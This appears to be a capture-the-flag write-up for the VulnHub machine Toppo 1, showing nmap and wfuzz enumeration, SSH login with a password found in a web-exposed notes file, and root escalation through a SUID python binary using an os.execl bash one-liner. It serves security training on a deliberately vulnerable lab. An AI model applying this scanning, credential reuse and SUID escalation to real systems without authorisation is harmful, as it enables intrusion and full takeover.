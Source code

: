 ```yaml
---
layout: post
title: VulnHub - Toppo 1
---
```


**Description:** The Machine isn't hard to own and don't require advanced exploitation.

**Author:** Hadi Mene

**Operating System:** Linux

**Aim:** To get root shell and read the flag.

**Download:**[https://www.vulnhub.com/entry/toppo-1,245/](https://www.vulnhub.com/entry/toppo-1,245/)

## Information Gathering
### Host Discovery

With nmap I discovered the target machine on the local network.

```bash
root@kali:~$ nmap -n -sn 192.168.179.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 12:40 -05
Nmap scan report for 192.168.179.1
Host is up.
Nmap scan report for 192.168.179.154
Host is up (0.00070s latency).
MAC Address: 08:00:27:CB:BD:36 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.179.254
Host is up (0.00029s latency).
MAC Address: 00:50:56:F0:4D:8E (VMware)
```

### Port Scanning

Then, I did a full TCP port scan to discover open ports.

```bash
root@kali:~$ nmap -T4 -v -n -p- 192.168.179.154 -oG nmap/all-tcp-ports.txt
...
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
48238/tcp open  unknown
```

### Service Enumeration

Then I performed the version detection and OS, script scanning and traceroute on the target host.

```bash
root@kali:~$ nmap -A -v -p22,80,111,48238 192.168.179.154 -oN nmap/service-enum.txt
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000) 
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37372/udp   status 
|   100024  1          48238/tcp   status 
|   100024  1          52388/udp6  status 
|_  100024  1          57788/tcp6  status
48238/tcp open  status  1 (RPC #100024)
```

### Web Enumeration

In the web service, at first glance I didn't find anything important, so I decided run wfuzz to find files and directories hidden.

![](/assets/images/toppo/screenshot-1.png)

```bash
root@kali:~$ wfuzz -c --hc 404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.179.154/FUZZ
...
000000039:   301        9 L      28 W       316 Ch      "img"
000000201:   301        9 L      28 W       317 Ch      "mail"
000000259:   301        9 L      28 W       318 Ch      "admin"
000000550:   301        9 L      28 W       316 Ch      "css"
000000730:   301        9 L      28 W       319 Ch      "manual"
000000953:   301        9 L      28 W       315 Ch      "js"
000001481:   301        9 L      28 W       319 Ch      "vendor"
000003295:   200        21 L     172 W      1093 Ch     "LICENSE"
```

Listing the admin directory I found the notes.txt file, as we can see this contains a password, this possibly belongs to the ted user, since it's included in the password.

![](/assets/images/toppo/screenshot-2.png)

![](/assets/images/toppo/screenshot-3.png)

## Exploitation
### Access via ssh

I tried to log in to the server via SSH with the user **ted** and password **12345ted123**, and the access was successful.

```bash
root@kali:~$ ssh ted@192.168.179.154             
ted@192.168.179.154's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$
```

Enumerating for SUID binaries, I found the python binary with this permission, we can abuse this to escalate our privileges.  

```bash
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null 
...
/usr/bin/python2.7
...
```

## Privilege Escalation
### SUID binary

To get root I used the following python instruction, this imports the os module which allows you to run the execl() function, this subroutine runs an executable file indicated by the path, in this case the bash binary, this method was obtained from the [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) guide.

```bash
ted@Toppo:~$ python -c 'import os; os.execl("/bin/bash","bash","-p")'
bash-4.3# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
bash-4.3# whoami
root

bash-4.3# cd /root
bash-4.3# ls
flag.txt
bash-4.3# cat flag.txt 
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```
